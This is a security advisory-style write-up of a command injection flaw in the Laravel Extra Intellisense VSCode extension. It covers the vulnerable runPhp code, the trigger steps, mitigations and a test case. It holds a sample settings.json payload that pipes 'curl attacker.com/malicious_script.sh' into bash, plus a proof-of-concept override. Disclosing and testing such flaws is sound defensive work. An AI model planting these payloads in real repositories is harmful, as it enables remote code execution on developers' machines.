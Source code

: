### Vulnerability List:

* **Vulnerability Name:**  Command Injection via Malicious Workspace Settings

* **Description:**
    The "Laravel Extra Intellisense" VSCode extension allows users to configure the `LaravelExtraIntellisense.phpCommand` setting, which defines the command used to execute PHP code for Laravel project analysis. This setting is used by the extension to run arbitrary PHP code within the user's Laravel project context to gather information for autocompletion features. A malicious actor can craft a workspace configuration file (`.vscode/settings.json`) within a seemingly innocuous Laravel project repository. This configuration file can override the `LaravelExtraIntellense.phpCommand` setting with a malicious command. When a victim opens this malicious repository in VSCode with the "Laravel Extra Intellisense" extension installed and activated, the overridden `phpCommand` will be used by the extension to execute PHP code. This can lead to command injection, allowing the attacker to execute arbitrary commands on the victim's machine with the privileges of the VSCode process.

    **Step-by-step trigger:**
    1. Attacker creates a malicious Laravel project repository.
    2. Inside the repository, the attacker creates a `.vscode` directory.
    3. Inside the `.vscode` directory, the attacker creates a `settings.json` file.
    4. In `settings.json`, the attacker sets the `LaravelExtraIntellisense.phpCommand` to a malicious command, for example:
       ```json
       {
           "LaravelExtraIntellisense.phpCommand": "echo '; system(\"curl attacker.com/malicious_script.sh | bash\"); exit;' | php -r \"{code}\""
       }
       ```
    5. The attacker hosts this malicious repository on a public platform like GitHub and lures the victim to clone and open it in VSCode.
    6. Victim clones the repository and opens it in VSCode.
    7. The "Laravel Extra Intellisense" extension activates upon opening the workspace.
    8. The extension reads the workspace settings, including the attacker-controlled `LaravelExtraIntellisense.phpCommand`.
    9. When the extension attempts to gather autocompletion data (e.g., route list, view list, etc.), it uses `Helpers.runLaravel` which internally uses `Helpers.runPhp` with the malicious `phpCommand`.
    10. The `system("curl attacker.com/malicious_script.sh | bash")` command injected by the attacker is executed on the victim's machine.

* **Impact:**
    Remote Code Execution (RCE). The attacker can execute arbitrary commands on the victim's machine, potentially leading to:
    - Data exfiltration: Stealing sensitive files, credentials, or environment variables from the victim's machine.
    - Malware installation: Installing backdoors, ransomware, or other malicious software.
    - System compromise: Gaining complete control over the victim's machine.
    - Lateral movement: Using the compromised machine as a stepping stone to attack other systems on the victim's network.

* **Vulnerability Rank:** Critical

* **Currently Implemented Mitigations:**
    None. The extension directly uses the user-configurable `phpCommand` setting without any sanitization or validation when executing PHP code. The "Security Note" in the README warns about potential issues, but it does not mitigate this specific command injection vulnerability.

* **Missing Mitigations:**
    - **Input Sanitization:**  The extension should sanitize the `phpCommand` setting to prevent command injection.  Specifically, it should prevent users from injecting shell commands within the `phpCommand`.  However, sanitizing shell commands correctly is complex and error-prone.
    - **Parameterization/Escaping:** Instead of string concatenation to build the shell command, the extension should use parameterized execution or proper escaping mechanisms provided by the `child_process.exec` or similar Node.js APIs to separate commands from arguments. However, given the `phpCommand` is intended to be a template string, this might be difficult to implement correctly and still allow for user customization.
    - **Restricting `phpCommand` Configuration:** The extension could restrict how `phpCommand` can be configured. For example, it could disallow workspace-level settings for `phpCommand` and only allow user settings, making it harder for attackers to silently inject malicious commands via repository configuration.
    - **Warning on Configuration Override:** When the extension detects that `phpCommand` is being overridden by workspace settings, it could display a prominent warning to the user, highlighting the potential security risks.
    - **Principle of Least Privilege:**  Consider if the extension truly needs to execute arbitrary shell commands.  If possible, explore alternative approaches to gather necessary information from the Laravel project without relying on `child_process.exec` and user-provided shell command templates. If shell command execution is unavoidable, reduce the scope of commands that can be executed.

* **Preconditions:**
    1. Victim has the "Laravel Extra Intellisense" extension installed and activated in VSCode.
    2. Victim opens a malicious Laravel project repository in VSCode that contains a crafted `.vscode/settings.json` file.
    3. The malicious `.vscode/settings.json` file overrides the `LaravelExtraIntellisense.phpCommand` setting with a malicious command.
    4. The extension attempts to run a Laravel command (which happens automatically in the background to provide autocompletion features).

* **Source Code Analysis:**

    1. **File: `src/helpers.ts`**

    ```typescript
    static async runPhp(code: string, description: string|null = null) : Promise<string> {
        code = code.replace(/\"/g, "\\\"");
        if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
            code = code.replace(/\$/g, "\\$");
            code = code.replace(/\\\\'/g, '\\\\\\\\\'');
            code = code.replace(/\\\\"/g, '\\\\\\\\\"');
        }
        let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\""; // [!] User-configurable phpCommand is retrieved here.
        let command = commandTemplate.replace("{code}", code); // [!] Vulnerable string replacement to construct the command.
        let out = new Promise<string>(function (resolve, error) {
            if (description != null) {
                Helpers.outputChannel?.info("Laravel Extra Intellisense command started: " + description);
            }

            cp.exec(command, // [!] Command execution using child_process.exec.
                { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
                function (err, stdout, stderr) {
                    // ...
                }
            );
        });
        return out;
    }
    ```

    2. **Vulnerability Flow:**
        - The `runPhp` function in `helpers.ts` retrieves the `phpCommand` setting using `vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand')`.
        - It then uses simple string replacement (`commandTemplate.replace("{code}", code)`) to construct the final command to be executed. This is where command injection occurs because the `code` variable, while intended to be PHP code, is embedded directly into the shell command string without proper escaping or parameterization.
        - Finally, `cp.exec(command, ...)` executes the constructed command on the system shell.

    **Visualization:**

    ```
    User Settings (phpCommand)  ----->  getConfiguration()  ----->  commandTemplate
                                        ^
    Malicious settings.json can override phpCommand
                                        |
    PHP Code (extension logic)   ----->  code
                                        |
    String Replacement         ----->  command = commandTemplate.replace("{code}", code)  [VULNERABILITY: Command Injection]
                                        |
    cp.exec(command)           ----->  System Shell  ----->  Command Execution
    ```


* **Security Test Case:**

    **Test Scenario:** Verify command injection vulnerability by overriding `phpCommand` with a malicious command via workspace settings and observing command execution.

    **Steps:**
    1. **Preparation:**
        - Ensure "Laravel Extra Intellisense" extension is installed and activated in VSCode.
        - Create an empty directory named `malicious-laravel-project`.
        - Inside `malicious-laravel-project`, create a `.vscode` directory.
        - Inside `.vscode`, create a `settings.json` file with the following content to override `phpCommand` to execute `touch /tmp/pwned`:
          ```json
          {
              "LaravelExtraIntellisense.phpCommand": "php -r 'system(\"touch /tmp/pwned\"); {code}'"
          }
          ```
        - Open the `malicious-laravel-project` directory in VSCode.

    2. **Trigger Vulnerability:**
        - Wait for the "Laravel Extra Intellisense" extension to activate (it usually activates automatically when a workspace is opened). The extension will attempt to gather Laravel project data in the background. This should trigger the vulnerability. You might need to open a PHP or Blade file in the workspace to ensure the extension is actively trying to provide completions and thus executing `runLaravel`/`runPhp`.

    3. **Verification:**
        - Open a terminal on the victim's machine and check if the file `/tmp/pwned` exists:
          ```bash
          ls -l /tmp/pwned
          ```
        - If the file `/tmp/pwned` exists, it confirms that the `touch /tmp/pwned` command injected via the malicious `phpCommand` was successfully executed, proving the command injection vulnerability.
        - Additionally, check the "Laravel Extra Intellisense" output channel in VSCode (`View -> Output`, then select "Laravel Extra Intellisense" in the dropdown) for any error messages or logs that might indicate the extension attempted to execute commands.

This test case demonstrates that a malicious actor can successfully inject and execute arbitrary commands on a victim's machine by providing a malicious workspace with a crafted `.vscode/settings.json` file that overrides the `LaravelExtraIntellisense.phpCommand` setting.
